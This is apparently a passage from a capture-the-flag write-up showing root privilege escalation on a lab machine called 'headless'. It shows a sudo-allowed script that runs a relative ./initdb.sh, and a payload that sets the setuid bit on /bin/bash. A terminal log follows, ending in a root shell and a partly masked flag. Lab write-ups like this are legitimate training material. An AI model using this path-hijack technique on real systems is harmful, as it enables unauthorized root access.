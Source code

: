     User dvir may run the following commands on headless:
        (ALL) NOPASSWD: /usr/bin/syscheck

The user can execute `/usr/bin/syscheck` as root using `sudo`

    $ strings /usr/bin/syscheck
    #!/bin/bash
    if [ "$EUID" -ne 0 ]; then
      exit 1
    last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
    formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
    /usr/bin/echo "Last Kernel Modification Time: $formatted_time"
    disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
    /usr/bin/echo "Available disk space: $disk_space"
    load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
    /usr/bin/echo "System load average: $load_average"
    if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
      /usr/bin/echo "Database service is not running. Starting it..."
      ./initdb.sh 2>/dev/null
    else
      /usr/bin/echo "Database service is running."
    exit 0

ChatGPT gives us a better explanation of what's going on here.

![chatgpt](https://i.ibb.co/gJss1YK/chatgpt.jpg)

### Root flag

Create a file named  `initdb.sh` with the payload (that sets the setuid permission on /bin/bash)  & run /usr/bin/syscheck with root privileges. 

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

`bash -p` will launch the Bash shell with privileged permissions.


    bash-5.2$ echo "chmod u+s /bin/bash" > initdb.sh
    echo "chmod u+s /bin/bash" > initdb.sh
    bash-5.2$ chmod +x initdb.sh
    chmod +x initdb.sh
    bash-5.2$ sudo /usr/bin/syscheck
    sudo /usr/bin/syscheck
    Last Kernel Modification Time: 01/02/2024 10:05
    Available disk space: 1.9G
    System load average:  0.09, 0.14, 0.10
    Database service is not running. Starting it...
    bash-5.2$ /bin/bash -p
    /bin/bash -p
    bash-5.2# id
    id
    uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
    bash-5.2# cd /root
    cd /root
    bash-5.2# ls
    ls
    root.txt
    bash-5.2# cat root.txt
    cat root.txt
    52937c649ac4ca89557894efed1e8***


